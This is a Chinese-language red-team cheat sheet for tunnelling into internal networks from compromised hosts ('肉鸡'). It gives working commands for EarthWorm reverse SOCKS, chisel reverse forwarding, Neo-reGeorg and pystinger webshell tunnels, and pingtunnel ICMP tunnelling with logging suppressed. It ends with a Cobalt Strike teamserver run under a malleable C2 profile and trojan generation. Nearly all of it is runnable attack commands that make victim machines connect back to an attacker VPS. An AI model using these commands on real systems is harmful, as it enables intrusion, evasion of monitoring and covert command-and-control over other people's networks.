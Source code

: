 

[TOC]



# EarthWorm内网穿透

## 正向socks5服务器

当目标网络边界存在公网IP且可任意开监听端口 

```bash
./ew_linux_x64 -s ssocksd -l 1080
```

可在该目标机器上开启一个8888的正向连接，然后其他主机可通过SwitchyOmega设置socks5代理为目标主机ip:1080 ，添加这个代理就可以使用了

## 反向socks5服务器

### 服务器（外网vps）

```bash
./ew_linux_x64 -s rcsocks -l 1080 -e 5555
```

解释：把1080端口收到的请求转发给5555端口。

### 目标主机

通过CS把ew传到目标主机上，在指定目录输入命令

```bash
shell C:\Users\admin\Downloads\ew\release\ew_win32.exe -s rssocks -d 192.168.211.129 -e 5555
```

解释：在目标主机启动服务，反弹到公网主机的5555端口。

通过SwitchyOmega设置socks5代理为vps的ip:1080挂上代理就成功了，可以访问内网了。

# chisel（http协议）

vps上执行

```bash
./chisel server -p 6666 -reverse
```

获取密钥，再到肉鸡上执行`chisel client -fingerprint 密钥 -v vps地址:端口 R:0.0.0.0:13389:127.0.0.1:肉鸡想映射的端口`

```cmd
C:\Users\root\Desktop\icmp代理>chisel.exe client -fingerprint DiGhDFpt5cE+hqJb+plMzB5HyJIKYXTKfXA2L75WWGU= -v 192.168.211.129:6666 R:0.0.0.0:13389:127.0.0.1:80
```

成功后，访问vps的13389端口就是肉鸡80端口

# Neo-reGeorg

生成有密码的webshell并上传到WEB服务器`python neoreg.py generate -k 密码`

```bash
python3 neoreg.py generate -k password
```

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理`python neoreg.py -k 密码 -u http://肉鸡ip/tunnel.php`

```bash
python3 neoreg.py -k password -u http://192.168.211.140/tunnel.php
```

默认在本地1080端口，通过SwitchyOmega设置socks5代理为127.0.0.1:1080挂上代理，访问127.0.0.1就是web服务器（隧道只能本地访问）

# 伪装成icmp出网

### 服务器（外网vps）

把10080端口收到的请求转发给8898端口。

```bash
./ew_for_linux -s rcsocks -l 10080 -e 8898
```

开启pingtunnel服务端

```bash
./pingtunnel -type server
```

### 目标主机

通过CS把ew、pingtunnel传到目标主机上，在指定目录输入命令

在目标主机启动pingtunnel服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`pingtunnel.exe -type client -l 127.0.0.1:9999 -s vps -t vps:8898 -sock5 -1 -noprint 1 -nolog 1`

```cmd
C:\Users\root\Desktop\内网代理>pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.211.129 -t 192.168.211.129:8898 -sock5 -1 -noprint 1 -nolog 1
```

在目标主机启动ew服务

```cmd
C:\Users\root\Desktop\内网代理>ew_for_win_32.exe -s rssocks -d 127.0.0.1 -e 9999
```

通过SwitchyOmega设置socks5代理为vps的ip:10080挂上代理就成功了，可以访问内网了。

# 伪装成http出网

Step1.肉鸡上开启pystinger服务端：

```cmd
C:\Users\root\Desktop\内网代理\dist>stinger_server.exe 0.0.0.0
```

Step2.上传webshell到肉鸡web目录：

Step3.vps上开启pystinger客户端：`./stinger_client -w http://肉鸡ip/proxy.php -l 127.0.0.1 -p 60000`

```bash
./stinger_client -w http://192.168.211.140/proxy.php -l 127.0.0.1 -p 60000
```

vps启动cs，cs连接

```bash
./teamserver vpsip 密码 ./malleable-c2-master/jquery-c2.4.3.profile
```

出网肉鸡：

监听都写127.0.0.1，端口60020，生成对应木马上线

不出网肉鸡：

监听都写肉鸡内网IP地址，端口60020，生成对应木马上线